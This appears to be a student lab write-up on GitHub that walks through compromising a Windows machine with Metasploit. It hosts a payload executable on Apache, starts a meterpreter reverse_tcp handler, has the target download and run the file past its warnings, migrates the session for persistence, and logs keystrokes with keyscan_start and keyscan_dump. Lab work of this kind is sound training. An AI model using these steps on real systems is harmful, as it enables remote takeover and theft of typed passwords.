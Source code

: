 Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

![eth6 1](https://github.com/Gayathriraj18/Compromising-windows-using-Metasploit/assets/94154854/f985fbb4-b2d0-4d38-8d94-b7f31e7c7ffa)

copy the fun.exe into the apache /var/www/html folder:

![eth6 2](https://github.com/Gayathriraj18/Compromising-windows-using-Metasploit/assets/94154854/119094c1-f105-4415-8708-6e41bc65a0f1)

Start apache server sudo systemctl apache2 start and Check the status of apache2:

![eth6 3](https://github.com/Gayathriraj18/Compromising-windows-using-Metasploit/assets/94154854/286bbced-b8e3-4d8a-b773-27eac9f5729d)

![eth6 4](https://github.com/Gayathriraj18/Compromising-windows-using-Metasploit/assets/94154854/edf201ba-66ea-4bad-9917-d325e9df7c98)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![eth6 5](https://github.com/Gayathriraj18/Compromising-windows-using-Metasploit/assets/94154854/45e34589-d0a2-45e6-b421-ebab9f657426)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![eth6 6](https://github.com/Gayathriraj18/Compromising-windows-using-Metasploit/assets/94154854/7cf91c70-f3ea-4997-9cf1-3505c7144dcb)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit :

![eth6 7](https://github.com/Gayathriraj18/Compromising-windows-using-Metasploit/assets/94154854/9e992e77-934d-43e3-acb6-538f51ffe8f4)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![eth6 8](https://github.com/Gayathriraj18/Compromising-windows-using-Metasploit/assets/94154854/77729161-c414-41d1-9ebf-335729b2eb0f)

keyscan_dump Shows the keystrokes captured so far

![eth6 9](https://github.com/Gayathriraj18/Compromising-windows-using-Metasploit/assets/94154854/204a7d6a-9ce2-4ef9-a061-8f14525197a5)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
